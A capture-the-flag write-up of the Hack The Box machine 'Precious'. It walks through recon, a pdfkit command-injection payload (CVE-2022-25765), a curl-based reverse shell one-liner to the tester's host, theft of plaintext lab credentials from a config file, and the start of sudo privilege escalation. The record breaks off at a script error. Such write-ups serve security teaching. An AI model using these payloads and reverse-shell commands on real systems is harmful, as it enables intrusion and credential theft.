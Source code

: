 # Precious

*Linux* - Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.

--------------

## 1. Submit User Flag

First add the ip address and the domain `precious.htb` to the `etc/hosts` file:

```sh
echo '10.10.11.189 precious.htb' | sudo tee -a /etc/hosts 2>/dev/null
```

Then when you visit the page, you see that there is a prompt to convert web page to PDF.

Let's scan the page with `nmap`.

```sh
nmap -sV -sC precious.htb

Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-28 00:40 CET
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 00:40 (0:00:06 remaining)
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|_http-title: Convert Web Page to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got two open ports 22 and 80.

From the headers we learn also about the server which is nginx, and that it uses Ruby. 

```sh
curl -I http://precious.htb

HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 483
Connection: keep-alive
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Thu, 27 Mar 2025 23:40:37 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
```

Now let's use the website. 

Create a web-server on a directory.

```sh
python3 -m http.server
```

Add your ip to the web-page, and it will download you a pdf file.

Let's view the metadata of the file, using `exiftool`.

```sh
exiftool gxk4iq5r7e4rxktdyxfffvh2brv0wcdk.pdf

ExifTool Version Number         : 13.25
File Name                       : gxk4iq5r7e4rxktdyxfffvh2brv0wcdk.pdf
Directory                       : .
File Size                       : 57 kB
File Modification Date/Time     : 2025:03:28 00:54:20+01:00
File Access Date/Time           : 2025:03:28 00:54:20+01:00
File Inode Change Date/Time     : 2025:03:28 00:54:20+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 2
Creator                         : Generated by pdfkit v0.8.6
```

Now we know that the app behind that did this is `pdfkit 0.8.6` and let's search for any vulnerabilities.

We found a `Command Injection` vulnerability - CVE-2022-25765, and found a PoC, which in order to check if it works, I'm going to try to `cURL` to our server, to check if we got a request.

```sh
http://10.10.14.2:8000/?name=#{'%20`curl http://10.10.14.2:8000/test`'}
```

On the web-server we see the request, and now we know that we have a working exploit here.

```sh
10.10.11.189 - - [28/Mar/2025 01:29:44] "GET /test HTTP/1.1" 404 -
```

Let's try to get a reverse shell, first start a listening service using `ncat`.

```sh
nc -nlvp 4444
```

I created a `ruby` reverse shell one-liner from www.revshells.com.

```sh
C='curl -Ns telnet://10.10.14.2:4444'; $C </dev/null 2>&1 | sh 2>&1 | $C >/dev/null
```

And we got a reverse shell.

```sh
nc -nlvp 4444

Connection from 10.10.11.189:60456
whoami
ruby
```

Let's get the file from the `henry` directory.

We don't have access to read the `user.txt` file on `/home/henry` so we should upgrade the shell to a `TTY`.

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

On the `/home/ruby` we have a `.bundle` directory, which hosts configuration files by `Gem` and `Ruby`.

When we read the config file, we see the plain-text password.

```sh
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Since we have a `ssh` let's try it with these credentials.

```sh
cat /home/henry/user.txt

17861cfd6697732c4f6bed35f521b534
```


## 2. Submit root flag

Let's try now the privilege escalation.

While checking for `sudo` privileges we see an entry for a `Ruby` script.

```sh
sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Let's try to run it.

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
Traceback (most recent call last):
	2: from /opt/update_dependencies.rb:17:in `<main>'
	1: from /opt/update_dependencies.rb:10:in `list_from_file'
/opt/update_dependencies.rb:10:in `read': No such file or directory @ rb_sysopen - dependencies.yml (Errno::ENOENT)
```

